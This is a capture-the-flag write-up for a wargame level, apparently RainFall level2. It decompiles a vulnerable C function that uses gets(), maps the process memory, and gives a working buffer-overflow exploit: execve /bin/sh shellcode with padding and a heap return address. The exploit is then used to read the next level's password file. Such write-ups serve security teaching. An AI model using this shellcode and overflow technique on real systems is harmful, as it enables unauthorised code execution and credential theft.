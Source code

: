 ## Step 1: Static & Dynamic Analysis

```c
void p(void)
{
  uint unaff_retaddr;
  char buffer [76];
  
  fflush(stdout);
  gets(buffer);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
    _exit(1);
  }
  puts(buffer);
  strdup(buffer);
  return;
}

void main(void)
{
  p();
  return;
}
```

### Explanation
The binary fills a buffer (`buffer`) via `stdin` using `gets()`, without any validation to prevent potential `buffer overflow`.
After this, it checks if the copy of the `eip` (`unaff_retaddr`) on the `stack` has been modified to point to an address starting with `0xb`. If so, it calls `_exit()`.

The program checks this because it typically indicates an attempt to execute code in restricted memory regions, such as the stack or shared libraries.

If the check passes, it prints the buffer using `puts()` and creates a copy of the buffer on the `heap` using `strdup()`.
```
(gdb) info proc map                
process 3548
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fd9000 0xb7fdd000     0x4000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
To exploit the `buffer overflow`, the goal is to fill the buffer with `shellcode`, add padding to reach the `eip` copy, and overwrite it with the address of the shellcode's location in the `heap` before `strdup()` stores the buffer.
When the `p()` function returns, the overwritten `eip` will cause execution to jump to the shellcode, spawning a shell.


## Step 2: Exploiting the Binary

```bash
level2@RainFall:~$ python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 48) + "BBBB" + "\x08\x04\xa0\x08"[::-1])' > /tmp/exploit

level2@RainFall:~$ cat /tmp/exploit - | ./level2

% cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
